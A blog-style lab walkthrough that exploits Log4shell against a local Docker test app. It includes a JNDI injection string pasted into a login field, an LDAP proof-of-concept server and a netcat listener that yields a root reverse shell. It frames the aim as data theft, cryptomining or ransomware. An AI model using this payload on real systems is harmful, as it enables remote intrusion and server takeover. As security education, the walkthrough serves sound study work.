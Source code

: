 ```yaml
---
title: "Exploiting Log4shell"
categories:
  - Hacking
header:
  image: assets/images/hack.jpg

---
```


This article is intended to show the Log4shell exploit in action. If you're unfamiliar with what Log4shell is, [please read this article](https://www.freshprinceofhacking.com/general/Log4Shell-Vulnerability/). Essentially, we're going to have a test web application set up, along with the actual exploit that has been made ready to show as proof of concept. Let's get hacking!

### Scenario

We've just discovered a web application that is vulnerable to the Log4shell exploit. We want to be able to get a reverse shell on the webserver in order to control the server remotely. Once we do that, we can then continue to perform whatever hacking is necessary to achieve our end goal (data exfiltration, deploy crypto mining malware or ransomware, etc.). 

### Concept

Log4shell is a vulnerability recently discovered in the log4j java library. Log4j is a logging framework that records various events in a given application that can be read by a system administrator. These events can include user input, error messages and system routines. Log4j also utilizes a feature called lookups, which can be used to retrieve data from remote locations. If done correctly, a hacker can craft a special string that log4j will read, interpolate and execute code from a remote server that the attacker owns. The Java Naming and Directory Interface (JNDI) is the specific lookup that we will target to exploit this vulnerability.

### Tools Used

* Operating System: Linux (Pop-OS)
* Netcat: utility to read and write data across networks
* Python3: programming language used to compile exploit
* Docker: containerizing software that holds the vulnerable app
* Proof of Concept Github page: [Log4shell POC](https://github.com/kozmer/log4j-shell-poc)

If you're following along while reading, I'm going to assume you have everything downloaded and installed correctly after this point. 

### The Attack

Here is the web application we will be attacking:

![WebApp1]({{ site.url }}{{ site.baseurl }}/assets/images/webapp1.png)

It is a simple page with login credential fields. Remember, we want to be able to pass a string to log4j to query. User input is a great way to do that. Therefore the login credential fields will be our attack vector. 

There are only 2 things that we need to run: One is going to be the github poc script, which will create an LDAP server for us and set up the "malicious code" that log4j will execute on it. The other running piece is going to be a netcat listener that will receive the connection and start a reverse shell once the malicious code has been executed. Let's run the poc script from the github page:

![Server]({{ site.url }}{{ site.baseurl }}/assets/images/server.png)

We can see that an LDAP server has been created for us, and they even gave us a string that we can use to input into the login fields. Let's also start up our netcat listener in a different terminal:

![Netcat]({{ site.url }}{{ site.baseurl }}/assets/images/netcat.png)

The netcat listener is listening over port 9001, which is the listening port we gave to the exploit in the command when we set it up in the preivous section. This means that when we paste the string into the login field, the listener we set up should recognize that port 9001 is going to be used to complete the connection and spawn a reverse shell. Now everything should be ready to perform the exploit. The only thing we need to do is take the string ${jndi:ldap://localhost:1389/a} and paste it into the login field. Here is what that looks like:

![WebApp2]({{ site.url }}{{ site.baseurl }}/assets/images/webapp2.png)

All we've done is add the string to the username field and random text to the password field. Once we hit login, the exploit should work. Now let's turn our attention back to the poc terminal where we initiated the exploit:

![Server2]({{ site.url }}{{ site.baseurl }}/assets/images/server2.png)

Now we see that there was an LDAP reference which took the string we inputted into the field that log4j interpolated and then ultimately ran the code that's in "Exploit.class" hosted on our LDAP server. This is good! It means it worked as far as we know. However, let's check our netcat listener to see if we see any results:

![Netcat2]({{ site.url }}{{ site.baseurl }}/assets/images/netcat2.png)

Success!! We see a "Connection received on 127.0.0.1 54386". Ultimately, this means our reverse shell worked, and we now can execute commands on the webserver remotely. I've already chosen 3 simple but powerful commands that give us some information about the server that hosts the web application. 

The first command is "ls": This gives us information about files and folders in the current directory we are in. Ls also has other options which can show read/write/execute permissions on those files/folders.

The second command is "pwd": This command tells us exactly where we are on the machine. It gives information about the current directory and path of that directory. In this example I am in the /usr/local/tomcat directory.

The last command is "whoami": This command tells you the username of the current user. It may not seem like much, but as you can see it spit out "root" when we typed it in. This means I am the root user on this server, which basically allows me full permission to read/write/execute files and invoke privileged commands that normal users wouldn't have. You can think of it like an administrator credential. Often times when machines are exploited, the hacker will not have root access. This is where privilege escalation techniques will be used. 

The hack is complete!

### Conclusion

We can see that this exploit did not require a ridiculous amount of technical expertise to complete. Although the LDAP server and malicious code were created for us, setting these up manually is not hard to do. You can even push the exploit over other protocols such as DNS. So there are a lot of possibilities and creative ways that you can go about exploiting this vulnerability. You can bet that attackers will be trying to execute this in a stealthy manner that wouldn't be normally detected by security tools. 

As stated in my article on Log4shell, the problem is that there are millions upon millions of vulnerable devices, which more than likely aren't all patched. Hackers are constantly combing the internet for webservers and other devices that may be vulnerable to the exploit. It only takes one device in a network to be vulnerable that could be the downfall to a major part of the security posture of the organization.

Only time will tell how bad the fall out from this vulnerability will be. There is already [evidence of this exploit being used in the wild](https://www.advintel.io/post/ransomware-advisory-log4shell-exploitation-for-initial-access-lateral-movement) to leverage ransomware, cryptomining and botnet activity across enterprise networks. In the meantime, the best thing we can do individually is to continue to adhere to best security practices; (including but not limited to) updating software when made available, use 2FA with strong passwords and be aware of phishing or suspicious emails.

Thank you for reading! 
